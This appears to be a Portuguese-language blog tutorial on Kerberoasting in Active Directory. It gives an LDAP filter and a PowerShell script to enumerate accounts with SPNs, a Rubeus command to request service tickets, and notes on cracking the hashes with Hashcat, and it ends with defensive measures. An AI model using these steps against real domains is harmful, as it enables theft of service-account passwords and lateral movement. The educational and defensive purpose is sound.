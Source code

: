 ```yaml
---
title: "Kerberoastinh"
excerpt: "Teoria e prática sobre Kerberoasting."
categories:
  - Hacking
tags:
  - Kerberoasting
  - Active Directory
  - SPN
  - Rubeus
  - Hahscat

toc: true
---
```


## Teoria

Kerberoasting explora o Ticket Granting Service (TGS), que é usado para a autenticação em um serviço através do protocolo Kerberos.

O ataque envolve a solicitação de um ticket de serviço arbitrário para cada nome principal de serviço (Service Principal Name - SPN) no domínio e a tentativa de quebra offline da senha através de força bruta.

Caso a conta de serviço seja de máquina (`MACHINENAME$`), será impossível de realizar, por causa das senhas complexas e geradas aleatoriamente, porém, alguns serviços são executados por contas de um usuário normal (o usuário criou a senha) e neste caso o ataque é efetivo.

**OBS: Com a senha, a movimentação lateral se torna possível.**

Quando senhas fracas estão em uso, a probabilidade de sucesso do ataque aumenta significativamente, ou seja, é importante aplicar políticas de senhas fortes para a proteção.

## Extração de Contas com SPN através do LDAP

Pode-se realizar um filtro LDAP para extrair as contas que possuem mais de um SPN:

`(objectCategory=person)(objectClass=user)(servicePrincipalName=*)`

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/19cf4a23-3478-416a-9cd5-8b145caa6b3c)

![Untitled 1](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/e29d492f-13c9-49e3-8305-08ff57c64221)

## Extração de Contas com SPN através do Powershell

O mesmo filtro será usado através de um script poweshell.

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
	$userEntry = $result.GetDirectoryEntry()
	Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
	Write-host "SPNs"        
	foreach($SPN in $userEntry.servicePrincipalName)
	{
		$SPN       
	}
	Write-host ""
}
```

![Untitled 2](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/2a55426a-72bd-4aa2-9b5a-2efabc551fb1)

A Mõnica está associada ao SPN `MSSQLSvc/monica.com`.

## Ataque

O Kerberoast pode ser realizado através do Rubeus:

```powershell
Rubeus.exe kerberoast /nowrap
```

- A opção “nowrap” remove a quebra de linha (não obrigatório).

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/191c83c5-414c-4d3d-99f0-37de737e2ff5)

## Quebrando a Senha

O Hashcat será usado para quebrar a senha.

![Untitled 4](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/bd5d1f51-f60e-46ff-8fbd-8d207321a841)

- A configuração “-m 13100” é para quebrar senhas Kerberos 5 TGS-REP (etype 23).
- O arquivo “monraybrandt-kerberoast” possui o hash encontrado.
- O arquivo “pass” contém as possíveis senhas.

![Untitled 5](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/c8b83247-89f9-4a34-bf76-98d34121fb17)

## Medidas de Proteção

Criação de senhas fortes (tamanho 10 ou mais, números, letras maiúsculas e minúsculas e caracteres especiais).  
Remover e evitar SPN em contas de usuário.  
Caso realmente seja necessário, usar o Microsoft Managed Service Accounts (MSA).